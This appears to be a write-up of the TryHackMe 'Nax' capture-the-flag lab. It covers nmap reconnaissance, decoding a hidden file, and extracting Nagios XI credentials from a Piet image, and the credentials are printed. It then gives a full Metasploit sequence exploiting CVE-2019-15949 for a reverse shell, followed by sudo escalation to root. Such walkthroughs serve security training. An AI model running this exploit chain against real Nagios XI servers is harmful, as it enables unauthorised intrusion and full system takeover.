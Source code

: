 # [Nax](https://tryhackme.com/room/nax)

## Identify the critical security flaw in the most powerful and trusted network monitoring software on the market, that allows an user authenticated execute remote code execution.

# Flag

### What hidden file did you find?

1. Begin with network reconnaissance to identify open services

```bash
nmap IP
```

<img width="721" height="216" alt="SCREEN01" src="https://github.com/user-attachments/assets/51eeeed0-3d8e-42c6-8f6c-cc404d632096" />

2. Navigate to `https://<TARGET_IP>` to examine the web application. The page displays a periodic table. Extract the atomic numbers and decode using [CyberChef](https://gchq.github.io/CyberChef/). "From Decimal" operation reveals the hidden file path: `/PI3T.PNg`

```
Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr
47 - 80 - 73 - 51 - 84 - 46 - 80 - 78 - 103
47 80 73 51 84 46 80 78 103
```

<img width="1310" height="740" alt="SCREEN03" src="https://github.com/user-attachments/assets/a0b13e17-25f3-471e-8296-0504994fa1d9" />

---

### Who is the creator of the file?

1. Access the discovered file at `https://<TARGET_IP>/PI3T.PNg` and download it for analysis

2. Analyze the file using strings to extract embedded metadata.

```bash
strings PI3T.PNg
```

<img width="382" height="183" alt="SCREEN04" src="https://github.com/user-attachments/assets/ad098435-8029-4f44-985d-eb8b45d7a12c" />

---

### What is the username you found?

### What is the password you found?

_% is a separator_

1. The PNG file contains a Piet program (esoteric programming language using colors as code). Use an [online Piet interpreter](https://www.bertnase.de/npiet/npiet-execute.php) to execute the hidden program within the image.

   - The Piet program outputs credentials are `nagiosadmin:n3p3UQ&9BjLp4$7uhWdY`

![SCREEN05](https://github.com/user-attachments/assets/d1d151df-9d38-480b-a42d-4cf289ecc1b6)

### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

1. Log into the Nagios XI interface at `http://<TARGET_IP>/nagiosxi/index.php` using the discovered credentials. The system reports version is `5.5.6`. The relevant CVE can be found at: `https://www.cve.org/CVERecord?id=CVE-2019-15949`

---

### After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?

1. search for our target exploit using the command 'search nagios'.

   - The module is: `exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce`

```bash
msfconsole
search nagios
```

<img width="721" height="432" alt="SCREEN06" src="https://github.com/user-attachments/assets/a7844618-3fe8-4b9b-86a1-93e2d3b13834" />

---

### Compromise the machine and locate user.txt

1. Configure module, and execute it to get user flag

```bash
use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
show options
set RHOSTS <TARGET_IP>
set USERNAME nagiosadmin
set PASSWORD n3p3UQ&9BjLp4$7uhWdY
set LHOST <YOUR_IP>
set LPORT 4444
exploit

shell

ls /home
ls /home/galand
cat /home/galand/user.txt
```

<img width="342" height="125" alt="SCREEN07" src="https://github.com/user-attachments/assets/61da85dd-7b05-48cc-aaf2-f75231160b19" />

---

### Locate root.txt

1. Escalate privileges to root user

```bash
sudo -l
sudo su -
whoami
cat /root/root.txt
```

<img width="338" height="68" alt="SCREEN08" src="https://github.com/user-attachments/assets/9a48e0b5-df66-42b8-9b7d-556424396361" />
